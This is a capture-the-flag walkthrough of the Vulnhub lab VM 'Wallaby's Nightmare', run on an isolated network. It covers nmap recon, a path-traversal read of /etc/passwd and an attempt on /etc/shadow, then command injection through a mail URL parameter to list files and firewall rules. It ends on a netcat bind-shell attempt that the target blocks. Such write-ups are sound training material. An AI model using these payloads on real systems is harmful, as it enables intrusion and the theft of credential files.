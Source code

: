 Wallaby's: Nightmare (1.0.2)
============================

Source: https://www.vulnhub.com/entry/wallabys-nightmare-102,176/

* Name: HackDay: Albania
* Released: 22 Dec 2016
* Author: Waldo
* Series: Wallaby's

Recon, Recon, Recon
-------------------

This VM was absolutely not connected to my network -- I set it on its own VLAN. As should you if you run any of these Vulnhub exercises.
I started by running a ping scan across my local `/16` to see what was open.

```
nmap -sn 192.168.0.0/16
```

That came up with 2 results for the VM:

```
map scan report for 192.168.x.x
Host is up (0.00040s latency).
MAC Address: 00:0C:29:6B:EE:FA (VMware)
Nmap scan report for 192.168.x.x
Host is up (0.00038s latency).
MAC Address: 00:0C:29:6B:EE:FA (VMware)
```

Well (alright)x3, we have our 2 IPs. Time for a bit of a juicier `nmap`:

```
nmap -sV -A --open -vv -p1-65535 $TARGETIPS

[insert brevity here]

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:07:fc:70:20:98:f8:46:e4:8d:2e:ca:39:22:c7:be (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRXjkewNllkNLo46qiVKISIdysX+C//dfiL0yrAphV9jJg7ETXmLIcfKGQIuRVWXRPm5LgX1OE4LP4wmc5qWbCrI9HOZNMDDuZZsJ7hsHhDPVfu9J0aGoj69vPo7FCZlNWd+371cUiI0qmUeOGZGfAmZotGPkW9r6lom2ww6JphrtwpmlyI+pQk2x1qZR4ZnCIl+XmgFyGHEhim5ALMplxQP8qjnxjncr90xYSByjtQjlvURlemFjjbvVpPhX+BzsMAsXO16ywClLoig0dU39sSBbCSkgmryJYyLfkSWVO9KV6HPEXrVVxnHmUPwi19xGBiq9mxUbmPIza9r0BEofl
|   256 99:46:05:e7:c2:ba:ce:06:c4:47:c8:4f:9f:58:4c:86 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE91a97Hjo/onlxZBy2uFVZ5oTYZcVW2ivqzxdbF0EANVVX5asJJWv3jnb0NQuZY0LqUEs3cObmDVrKETtWmDfw=
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Wallaby's Server
```

Both IPs have SSH and Apache 2.4.18 open, and the server looks to be Ubuntu.

App(le) Picking
---------------

Let's check out this web app! It asked me to create a username, and because I love FFXIV so much, I chose `y4nd3r3_ro3`. Once registered, it takes me to a URL with this format:

> http://192.168.x.x/?page=home

The "registration" page suggested fuzzing is the way to go, and I do love fuzzing. With a URL format like that, I tried the first thing that came to mind: LFI (Local File Inclusion). Since it's an Ubuntu server, I stuck with the standard `/etc/passwd` test...

> http://192.168.x.x/?page=../../../etc/passwd

...And it worked! 


```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false walfin:x:1000:1000:walfin,,,:/home/walfin:/bin/bash sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false steven?:x:1001:1001::/home/steven?:/bin/bash ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
```

There are users named `steven?` and `walfin` in there, also an irc daemon. Both first users listed have `/bin/bash` enabled.

So let's try `/etc/shadow`...

> http://192.168.x.x/?page=../../etc/shadow

NOPE! I get this lovely message instead:

> That's some fishy stuff you're trying there y4nd3r3_ro3 buddy. You must think Wallaby codes like a monkey! I better get to 
> securing this SQLi though...

> (Wallaby caught you trying an LFI, you gotta be sneakier! Difficulty level has increased.)

And now the HTTP port has changed. :| 

It's ok, this is why I love `nmap` so much.

```
60080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Wallaby's Server
```

Meanwhile, at http://192.168.x.x:60080/

> HOLY MOLY, this guy y4nd3r3_ro3 wants me...Glad I moved to a different port so I could work more securely!!!
>
> As we all know, security by obscurity is the way to go...

The previous LFI has been cleaned up, and directory listings are off. So where do I go from here? The VM's web app tends to generic 404 me when I do something like "index.html", same on generic PHP files like "home.php", but gives me a custom 404 page for anything formatted like "/?page=test.php". From here I assumed their script is looking for the "/?page=" appended onto the file, so I ran `dirb` to see if there's anything common I could find:

`dirb http://192.168.x.x:60080?page= /usr/share/wordlists/dirb/common.txt`

From here I got some interesting results:
 
``` 
+ http://192.168.x.x:60080?page=contact (CODE:200|SIZE:895)                                                                                                                   
+ http://192.168.x.x:60080?page=home (CODE:200|SIZE:1151)                                                                                                                     
+ http://192.168.x.x:60080?page=index (CODE:200|SIZE:1366)                                                                                                                    
+ http://192.168.x.x:60080?page=mailer (CODE:200|SIZE:1089) 
```

At "?page=mailer" I got some interesting results by looking at the page source:

```
<!--a href='/?page=mailer&mail=mail wallaby "message goes here"'><button type='button'>Sendmail</button-->
    <!--Better finish implementing this so y4nd3r3_ro3
 can send me all his loser complaints!-->
```

So, big ol' hint there to use `/?page=mailer&mail=mail wallaby "message goes here"` as a potentially sensitive URL format. 

Do As I Say, Not As I Do
-------------------------

I try this URL, nothing much happens:

http://192.168.x.x:60080/?page=mailer&mail=mail

But then I start poking around...

http://192.168.x.x:60080/?page=mailer&mail=pwd

> /var/www/html
> Coming Soon guys!

A little more...

http://192.168.x.x:60080/?page=mailer&mail=ls%20-lah

> total 96K drwxr-xr-x 3 www-data www-data 4.0K Jan 3 07:41 . drwxr-xr-x 3 root root 4.0K Dec 16 21:31 .. -rw-r--r-- 1 root 
> root 16K Aug 11 2015 eye.jpg -rw-r--r-- 1 root root 3.6K Dec 27 19:19 index.php drwxr-xr-x 2 root root 4.0K Dec 27 12:25 
> s13!34g$3FVA5e@ed -rw-r--r-- 1 root root 57K Dec 27 12:24 sec.png -rw-r--r-- 1 www-data www-data 12 Jan 3 07:26 uname.txt
> Coming Soon guys!

Running `cat /etc/passwd` gave us some different entries than pre-LFI reset:
*  `wallaby:x:1001:1001::/home/wallaby:/bin/bash`
*  `waldo:x:1000:1000:waldo,,,:/home/waldo:/bin/bash`

And while IRC is back, it now has an accompanying bot:

*  `ircd:x:1003:1003:,,,:/home/ircd:/bin/bash`
*  `sopel:x:110:118:Sopel IRC bot,,,:/var/lib/sopel:/bin/false`

But what is it listening on? I didn't see it on `nmap` earlier.

http://192.168.x.x:60080/?page=mailer&mail=netstat%20-tapln

```
Active Internet connections (servers and established) 
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN - 
tcp 0 0 0.0.0.0:6667 0.0.0.0:* LISTEN - 
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN - 
tcp 0 0 127.0.0.1:43712 127.0.0.1:6667 ESTABLISHED - 
tcp 0 0 127.0.0.1:6667 127.0.0.1:43712 ESTABLISHED - 
tcp 0 0 127.0.0.1:6667 127.0.0.1:43708 ESTABLISHED - 
tcp 0 0 127.0.0.1:6667 127.0.0.1:43706 ESTABLISHED - 
tcp 0 0 127.0.0.1:43706 127.0.0.1:6667 ESTABLISHED - 
tcp 0 0 127.0.0.1:43708 127.0.0.1:6667 ESTABLISHED - 
tcp6 0 0 :::60080 :::* LISTEN - 
tcp6 0 0 :::22 :::* LISTEN - 
```

Hm, what's that on 6667? Time to find out.

http://192.168.x.x:60080/?page=mailer&mail=sudo%20iptables%20-nvL

```
Chain INPUT (policy ACCEPT 289K packets, 16M bytes) pkts bytes target prot opt in out source destination 
1001 64129 ACCEPT tcp -- * * 127.0.0.1 0.0.0.0/0 tcp dpt:6667 
19 948 DROP tcp -- * * 0.0.0.0/0 0.0.0.0/0 tcp dpt:6667 

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes) pkts bytes target prot opt in out source destination 

Chain OUTPUT (policy ACCEPT 292K packets, 24M bytes) pkts bytes target prot opt in out source destination
```

I will note that I am making a lot of assumptions at this point as to what this user has permissions to. That's just how my brain works: throwing spaghetti at walls.  From above, I see `iptables` is dropping all connections except those performed from inside the server. So now I have to get in the server. 

Sudo Make Me a User
-----------------------

It's time for `ncat`! ...Or not?

http://192.168.xx.xx:60080/?page=mailer&mail=nc%20-nvlp%204443%20-e%20/bin/bash
> How you gonna use netcat so obviously. Cmon man. This is all in the logs.

Alright, so I can't use `nc` or `ncat` or `netcat` in any carnation. 

